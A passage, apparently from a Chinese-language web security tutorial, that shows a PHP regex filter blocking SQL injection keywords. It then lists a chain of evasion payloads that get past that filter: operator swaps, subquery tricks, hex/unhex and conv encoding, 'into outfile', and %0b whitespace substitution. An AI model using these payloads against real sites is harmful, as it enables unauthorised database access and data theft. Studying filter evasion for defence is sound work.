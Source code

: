   
## 0x03 SQLi Filter的实现及Evasion
  
SQL Injection 时用得最多的一些关键字如下
  
`and, or, union, where, limit, group by, select, ', hex, substr, white space`
  

  
对它们的检测完整正则表达式为
  
`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)`
  

  
Filter Evasion在Beyond SQLi: Obfuscate and Bypass 以看到比较详细的解释
  
这里只做简化的说明其应对方式依次为 
  
``` sql
  
***note***:"=>"左边表示会被Filtered的语句，"=>"右边表示成功Bypass的语句，
  
左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字
  

  
and => && 　　or => ||
  

  
union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin
  

  
1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin
  

  
1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 
  
1) = 'admin'
  
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat
  
	(user_id),1,1) user from users )=1
  
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>  1 || 1 = 1 into outfile 'result.txt'　或者  
  
1 || substr(user,1,1) = 'a'　
  
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || 
  
	substr(user,1,1) = 0x61 或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
  
1 || substr(user,1,1) = unhex(61)　　=>   1 || substr(user,1,1) = lower(conv(11,10,36))
  
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
  
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered
  
```
  
